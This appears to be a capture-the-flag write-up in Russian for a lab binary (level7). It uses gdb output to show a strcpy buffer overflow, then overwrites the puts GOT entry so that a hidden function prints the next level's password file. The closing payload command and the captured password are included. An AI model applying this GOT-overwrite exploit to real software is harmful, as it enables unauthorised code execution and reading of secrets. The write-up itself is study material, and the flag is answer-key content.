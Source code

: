 # Вызов 'strcpy', уязвимого к переполнению буфера
```
=> 0x80485a0 <main+127>:	call   0x80483e0 <strcpy@plt>

=> 0x80485bd <main+156>:	call   0x80483e0 <strcpy@plt>
```
# Программа читает файл '/home/user/level8/.pass' с помощью 'fopen' и записывает его в глобальную переменную с помощью 'fgets'
# Функция 'm' печатает эту переменную, но не вызывается в основной функции

# Итак, нам нужно вызвать функцию 'm' ПОСЛЕ вызова 'fgets'
# Это делается заменой 'put' GOT (найдено после вызова 'fgets')
```
=> 0x80485eb <main+202>:	call   0x80483c0 <fgets@plt>
0x80485f0 <main+207>:	mov    DWORD PTR [esp],0x8048703
0x80485f7 <main+214>:	call   0x8048400 <puts@plt>
```
# вызов 'm'

# Мы используем шаблон gdb create или search, чтобы найти, в каких регистрах смещения происходит перезапись

# Мы нашли смещение 20 для первого 'strcpy'
# Также, когда мы запускаем следующее

```
gdb> r $(python -c "print 'A'*24") 'BBBB'
```
# Первый 'strcpy' прошел успешно, а вторые - SEGV со следующими аргументами
```
Guessed arguments:
arg[0]: 0x41414141 ('AAAA')
arg[1]: 0xffffd8f0 ("BBBB")
```
# Это интересно, потому что это означает, что второй 'strcpy' попытался записать значение argv [2] ...
# в адрес, записанный в argv [1] [20-24]

# Затем нам нужно найти адрес 'Put @ got'
```
gdb> disass main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
gdb> disass 0x8048400
[...]
0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
[...]
gdb> x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```
# нам нужен адрес функции m
```
gdb> x m
0x80484f4 <m>:	0x83e58955
```
# Тогда нам просто нужно написать payload
$> ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
>5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

# ╮(￣_￣)╭